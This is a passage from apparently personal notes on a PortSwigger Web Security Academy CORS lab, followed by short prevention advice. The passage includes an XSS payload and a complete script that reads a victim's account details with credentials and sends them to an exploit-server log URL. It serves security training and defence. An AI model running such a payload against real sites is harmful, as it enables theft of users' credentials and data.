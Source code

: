 	```
	https://stock.0a57008a0318110c80fb1cc3005200c7.web-security-academy.net/?productId=1%3Cscript%3Ealert(1)%3C/script%3E&storeId=1
	```
	
	![](../../../assets/screenshots/cors/Pasted%20image%2020250801170237.png)
	
	Check that the `stock` subdomain is trusted.
	
	And it is. 
	
	![](../../../assets/screenshots/cors/Pasted%20image%2020250801170438.png)
	
	We can inject the basic CORS exploit payload into the XSS on the `shop` subdomain. 
	
	So the request URL would become
	
	```
	<script>
	document.location="http://stock.0a57008a0318110c80fb1cc3005200c7.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a57008a0318110c80fb1cc3005200c7.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0ac4000c033411d480bf1bcb01920034.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
	</script>
	```
	
	Put that in your exploit server and deliver to victim. 
	
	![](../../../assets/screenshots/cors/Pasted%20image%2020250801172657.png)
	
	Submit the API key to solve the lab.



## Breaking TLS with Poorly Configured CORS

Be sure to check if CORS accepts insecure `http` sites. 


## Preventing CORS Misconfigurations

- If a web resource contains sensitive information, the origin should be properly specified in the `Access-Control-Allow-Origin` header. 
- Do not dynamically reflect arbitrary origins in the ACAO header.
- Avoid whitelisting `null` origins. 
- Avoid using wildcards on internal networks. Trusting network configuration alone to protect internal resources is not sufficient when internal browsers can access untrusted external domains.

!!! warning "Warning from PortSwigger"

	CORS defines browser behaviors and is never a replacement for server-side protection of sensitive data - an attacker can directly forge a request from any trusted origin. Therefore, web servers should continue to apply protections over sensitive data, such as authentication and session management, in addition to properly configured CORS.








